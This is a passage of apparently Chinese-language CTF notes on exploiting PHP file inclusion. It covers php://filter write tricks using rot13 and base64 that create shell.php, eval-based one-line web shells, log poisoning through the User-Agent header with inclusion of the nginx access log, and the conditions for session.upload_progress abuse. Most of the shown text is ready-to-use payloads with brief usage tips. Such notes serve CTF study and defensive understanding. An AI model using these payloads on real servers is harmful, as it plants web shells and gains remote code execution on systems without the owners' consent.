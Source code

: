     >    ?file=php://filter/write=string.rot13/resource=shell.php(要进行两次url全编码)
    >    content=<?php system(‘tac flag.php’);?>	（rot13）
    >    ```
    >
    > 
    >
    > 3. 或者是filter协议写入
    >
    >    ```
    >    ?file=php://filter/write=string.strip_tags|convert.base64-decode/resource=shell.php(要进行两次url全编码)
    >    content=<?php @eval($_REQUEST[1]);?>  （base64编码）
    >    ```



### 日志包含拿shell

一些日志文件默认路径：

1. nginx日志文件：/var/log/nginx/access.log
2. apache日志文件：/var/log/ apache | apache2 | httpd /access.log
3. iis日志文件：%systemroot%\system32\logfiles\

下面用的是nginx的日志文件路径：/var/log/nginx/access.log

```php
在ua头写一句话，再传参包含即可
user_agent：<?php eval($_post[1]);?>
然后：
include($_GET[1]);&1=/var/log/nginx/access.log
```

**ps：**

1. **日志包含尽量一次成功，不然错误代码会影响后面代码解析**
   **可以事先在本地试一下再传**

2. **在Ua中传入不会进行解码，因此编码绕过是无效的**
   **而在url中写入则会被url编码，没到达php就会被写入日志文件，同样不行**



### session.upload_progress

[利用session.upload_progress进行文件包含和反序列化渗透 - FreeBuf网络安全行业门户](https://www.freebuf.com/vuls/202819.html)

利用条件：

1. 存在文件包含漏洞 or session反序列化漏洞
2. 知道session文件存放路径，可以尝试默认路径
3. 具有读取和写入session文件的权限

由于php.ini默认配置的关系

1. `session.use_strict_mode默认值为0`，
   此时用户可以自己定义Session ID
   如：设置cookie：`PHPSESSID=hhh`，那么PHP会在服务器上创建一个文件：`/tmp/sess_hhh`
